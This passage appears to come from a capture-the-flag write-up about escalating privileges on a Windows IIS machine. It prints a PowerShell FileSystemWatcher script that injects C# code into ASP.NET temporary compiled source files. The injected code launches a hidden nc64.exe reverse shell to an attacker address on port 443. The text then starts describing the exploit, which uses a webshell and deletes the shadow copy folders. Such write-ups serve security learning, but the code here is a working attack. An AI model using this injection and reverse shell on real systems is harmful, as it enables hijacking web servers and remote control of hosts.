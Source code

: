 The script I’m going to use (written by ff5 with modified payload) is:

    
    
    $folder = 'C:\windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\root\cfb457c9\c7fa5157'
    $filter = 'App_Web_*.*.cs'
     
    $fsw = New-Object IO.FileSystemWatcher $folder, $filter -Property @{IncludeSubdirectories = $false;NotifyFilter = [IO.NotifyFilters]'FileName, LastWrite, LastAccess'} 
     
    $global:trig = 0
    $global:pwn = @"
    Execute() {
        System.Diagnostics.Process process = new System.Diagnostics.Process();
        System.Diagnostics.ProcessStartInfo startInfo = new System.Diagnostics.ProcessStartInfo();
        startInfo.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
        startInfo.FileName = "c:\\programdata\\nc64.exe";
        startInfo.Arguments = "10.10.14.15 443 -e powershell";
        process.StartInfo = startInfo;
        process.Start();
    
    "@
     
    Register-ObjectEvent $fsw Changed -SourceIdentifier FileChanged -Action { 
        $name = $Event.SourceEventArgs.Name 
        $changeType = $Event.SourceEventArgs.ChangeType 
        $timeStamp = $Event.TimeGenerated 
        Write-Host "The file '$name' was $changeType at $timeStamp" -fore white 
        if($name -like 'App_Web_*.0.cs' -AND $global:trig -eq 0) {
            Write-Host "Current trig: $global:trig by '$name'"
            $global:trig = 1;
            $src = get-content $name;
            $src = $src -replace 'Execute\(\) {$', $global:pwn
            $src = $src -replace 'using System;$', 'using System; using System.Diagnostics;'
            echo $src > $name
        }
    } 
    

It uses a `FileSystemWatcher`
[object](https://powershell.one/tricks/filesystem/filesystemwatcher) to
register a file change event handler looking for C# source files in the Shadow
File Copy directory. It finds `Execute() {` and replaces it with `Execute() {`
and then the malicious code. It also does a similar find and replace to bring
in an additional import. It does uses a global variable (`$global:trig`) to
make sure to only change the first one it finds. Not adding this will cause
the changes to take place again and again, and eventually break the
compilation.

### Exploit

I’ll start with both an SSH shell and a webshell, and use the webshell and
`nc64.exe` to get a shell that way (which I’ll just refer to as the webshell
shell). From the webshell shell, I’ll delete all the shadow copy folders:
